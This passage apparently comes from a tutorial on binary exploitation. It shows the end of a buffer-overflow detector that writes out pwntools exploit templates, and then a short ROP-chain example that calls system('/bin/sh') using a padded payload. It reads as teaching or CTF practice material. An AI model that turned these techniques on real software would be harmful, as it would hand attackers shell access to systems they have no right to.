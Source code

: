 ```python
    p.interactive()

if __name__ == "__main__":
    exploit()
'''
        
        return template

# Usage example:
# detector = BufferOverflowDetector("./vulnerable_binary")
# crash_length = detector.fuzz_inputs()
# if crash_length:
#     crash_info = detector.analyze_crash(crash_length)
#     exploit_code = detector.generate_exploit_template(crash_info['offset'])
#     print(exploit_code)
```

*[Screenshot placeholder: Tool output showing detected vulnerabilities and generated exploit]*

---

## Advanced Topics (Brief Overview)

### Return Oriented Programming (ROP)

When direct code injection isn't possible due to protections like NX bit:

```python
# File: rop_example.py
#!/usr/bin/env python3

"""
Basic ROP Chain Example
"""

from pwn import *

# Load binary and find gadgets
elf = ELF('./binary')
rop = ROP(elf)

# Build ROP chain to call system('/bin/sh')
binsh = next(elf.search(b'/bin/sh'))  # Find '/bin/sh' string
rop.call('system', [binsh])

# Create payload
offset = 40
payload = b'A' * offset + rop.chain()
```

### Format String Exploitation
